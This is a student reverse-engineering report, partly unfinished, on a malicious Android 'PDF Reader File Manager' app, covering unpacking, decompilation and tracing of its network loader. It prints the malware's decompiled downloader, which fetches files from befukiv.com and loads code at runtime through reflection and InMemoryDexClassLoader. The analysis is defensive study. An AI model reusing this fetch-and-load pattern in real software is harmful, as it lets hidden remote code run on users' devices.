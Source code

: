 ```yaml
---
geometry: margin=25mm
title: RE - PDF Manager
author: Tiago Silvestre - 103554, David Araújo - 93444
date: March 8, 2024
---
```


# Table of Contents
1. [Introduction](#introduction)
2. [Environment and Tools](#environment-and-tools)
3. [Exploration Steps](#exploration-steps)
4. [Conclusions](#conclusions) 

# Introduction

For our reverse engineering course, we have decided to analyze and reverse engineer the "PDF Reader File Manager" application, which was known for being removed from the Play Store earlier this year. It was developed to steal data from Android users, as explained in this article [here](https://www.tomsguide.com/computing/malware-adware/these-malicious-android-malware-apps-were-downloaded-150000-times-from-the-play-store-delete-them-right-now).

# Environment and Tools

## Environment
To explore this application, we first focused on using a **secure environment** where we could ensure that the finding **wouldn't harm** the host system, and prevent the **system from tainting** any of the possible findings.

We used Vagrant to setup a [Kali box](https://app.vagrantup.com/kalilinux/boxes/rolling) where we could import the provided raw files for evaluation. Also [REMnux Docker container](https://docs.remnux.org/install-distro/remnux-as-a-container) was used for further forensic exploration.

## Tools

[TODO]

# Exploration Steps & Findings

## Unpack

Unziping the file with `7za PDF_Reader_File_Manager.zip` results in the files and directory shown bellow.

![From the zip archive](./imgs/Screenshot%20from%202024-03-08%2017-30-10.png)

With a little investigation we can discover that XAPK files are just a bundle of an APKs with other files. To retrieve these we can again use `7za` and run it with the XAPK file. E now have multiple APKs, a PNG and a JSON file.

![Extracted files](./imgs/Screenshot%20from%202024-03-05%2000-41-49.png)

When trying to run `apktool d 1.apk` or `jadx -d out 1.apk`, we are confronted with some error. This does not happen with any other APK, so inspecting the file signatures, e can find out that **1.apk is not actually an APK** file.

![APK files signatures](./imgs/Screenshot%20from%202024-03-08%2017-40-55.png)

Indeed, if we try to unzip the file, we are able to retrieve multiple files.

![Inside the 1.apk](./imgs/Screenshot%20from%202024-03-08%2017-45-52.png)

## Decompiling

We now have a large set of files from the application, however, many of then are not relevant for what we are trying to achieve and can blur our view over the whole of the application. 

From all of the APKs found, e first focus on the _com.tragisoap.fileandpdfmanager.apk_ has it probably is the main application, and if anything malicious is to happen, it should first come from here.

Using `apktool`, we can expose the the inner contents of the bundle. To do this we can use the following command:

```bash
apktool d -r -s com.tragisoap.fileandpdfmanager.apk
```

From this, the most important file is the _classes.dex_ file, from which we can reassemble the Java class files. To do this we can use `jadx` with the command:

```bash
jadx -d out classes.dex
```

## Walkthrough

TODO: Finding initial point of application and trace it back to download of malware

### Exploring Application External Accesses

Given that the application contains malware, it's probable that at some point it downloads additional files from external services. We decided to search the codebase for URLs in the 'https://' format. And we found the following Java function.

```java
    public static void a() {
        String str;
        y4.p pVar = new y4.p();
        r.a aVar = new r.a();
        aVar.c("https://befukiv.com/muchaspuchas");
        y4.r a7 = aVar.a();
        r.a aVar2 = new r.a();
        aVar2.c("https://befukiv.com/cortina");
        y4.r a8 = aVar2.a();
        try {
            y4.t tVar = new y4.d(pVar, a7).a().f6804g;
            byte[] b2 = tVar.b();
            y4.o e7 = tVar.e();
            Charset charset = z4.h.f6957c;
            if (e7 != null && (str = e7.f6764b) != null) {
                charset = Charset.forName(str);
            }
            f3837g.set(new String(b2, charset.name()).split("\\|"));
            byte[] b7 = new y4.d(pVar, a8).a().f6804g.b();
            if (f3839i.get()) {
                return;
            }
            f3838h.getClass();
            g6.i.h(b7);
            f3839i.set(true);
        } catch (Throwable th) {
            th.printStackTrace();
        }
    }
```

Although it's obfuscated, we can see that it's accessing files from the domain **befukiv.com**. A DNS search reveals that this domain has two name servers pointing to domains in Russia.

```
...
Registrant Email: http://whois.nicenic.net/?page=whoisform
Admin Email: http://whois.nicenic.net/?page=whoisform&emailtype=admin
Tech Email: http://whois.nicenic.net/?page=whoisform&emailtype=tech
Name Server: NS1.ERANS.RU
Name Server: NS2.ERANS.RU
DNSSEC: unsigned
...
```

At the time this report is being written, the server is accessible, but the resources are not available (it returns a 'not found' response).

But we have access to these files as they were previously downloaded, so it's possible to continue our analysis.

### Exploring 'muchaspuchas' and 'cortina' files

The 'muchaspuchas' file is composed of what seems to be Java method or class names separated by the | character. The function where this file is being downloaded splits the file contents by the | character.

```
dalvik.system.InMemoryDexClassLoader|getClassLoader|loadClass|com.travisscott.pdf.MainLibrary|...
```

Given that information, we may assume that Java code is parsing these names and then calling them through reflection.

## Exploring readable files

We can see that inside function a() (obfuscated) a string is being splitted by '|' character. To make it more clear we did some deofuscation and achieved the following result

```java
public static void fetchFilesAndProcess() {
        String str;
        Session session = new Session();
        HttpHandler.getRequest getrequest = new HttpHandler.getRequest();
        getrequest.request("https://befukiv.com/muchaspuchas");
        HttpHandler call = getrequest.call();
        HttpHandler.getRequest getrequest2 = new HttpHandler.getRequest();
        getrequest2.request("https://befukiv.com/cortina");
        HttpHandler call2 = getrequest2.call();
        try {
            ParseHttpResponseBody parseHttpResponseBody = new setupTls(session, call).Execute().responseBody;
            byte[] parse = parseHttpResponseBody.parse();
            TwoStrings twoStrings = parseHttpResponseBody.getTwoStrings();
            Charset charset = z4.h.utf8Charset;
            if (twoStrings != null && (str = twoStrings.secondStr) != null) {
                charset = Charset.forName(str);
            }
            muchasStrings.set(new String(parse, charset.name()).split("\\|"));
            byte[] parse2 = new setupTls(session, call2).Execute().responseBody.parse();
            if (fetchAndProcessCompleted.get()) {
                return;
            }
            fw.getClass();
            FileWriter.mapMuchasStringsToMethods(parse2);
            fetchAndProcessCompleted.set(true);
        } catch (Throwable th) {
            th.printStackTrace();
        }
    }
```

As we can see, the function is fetching the files and is then it maps 'muchaspuchas' strings into application methods.
This shows that authors wanted to obfuscate application method calls with reflection.


TODO
1. muchaspuchas maybe a CSV type file
2. Based on 1., we look for split functions.



Going through the _1.apk_ files, we encountered a package named "juw.khdqwmf.xftkgphgq.fhyu" containing Chinese characters. After translating these strings using Google Translate, we determined that these characters formed simple Chinese sentences unrelated to the application's purpose. Further exploration revealed that **these strings were translated into package names when passed through a function**. This indicates that the original authors chose to obscure package names using Chinese strings.